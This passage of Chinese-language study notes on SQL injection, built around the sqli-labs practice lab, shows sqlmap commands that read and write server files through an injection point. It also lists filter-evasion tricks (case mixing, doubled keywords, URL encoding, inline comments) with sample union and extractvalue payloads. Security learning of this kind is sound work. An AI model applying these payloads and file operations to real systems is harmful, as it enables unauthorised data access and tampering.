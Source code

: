 ![image-20201130222727784](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130222727784.png)

**利用Sqlmap读写文件**

--file-read "路径"

--file-write "要写入的内容或所在文件路径" --file-dest "要写入的路径"

1.读文件

```
python sqlmap.py -u "http://127.0.0.1/sqlilabs/Less-7/index.php/?id=1" --file-read "D:\\1.txt"
```

![image-20201130224238087](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130224238087.png)

2.写文件

```
python sqlmap.py -u "http://127.0.0.1/sqlilabs/Less-7/index.php/?id=1" --file-write "E:\\1.txt" --file-dest "E:\\2.txt"
```



## SQL注入绕过手段

**1.大小写绕过**

例如：如果过滤了order，可以使用OrdER来进行绕过

**2.双写绕过**

例如：如果过滤了union，发现union无论大小写都会被替换为空，可以使用UniunionOn

**3.编码绕过**

可以利用URL编码，绕过过滤机制

如，union%250cselect 

**4.内联注释绕过**

内联注释里的内容会被当成SQL语句执行，例如/*!select */

**5.绕过去除注释符的SQL注入**

--+，-- ，# ，等注释符被过滤失效，考虑其他方式，如：

```
http://192.168.77.1/sqlilabs/Less-23/index.php/?id=-1' union select 1,2,'3
http://192.168.77.1/sqlilabs/Less-23/index.php/?id=1' or (extractvalue(1,concat(0x7e,(payload)))) or '
```

**6.绕过过滤and和or的SQL注入**

大小写变形，Or，oR，And，aND等

添加注释，a/**/nd

双写绕过，oorr
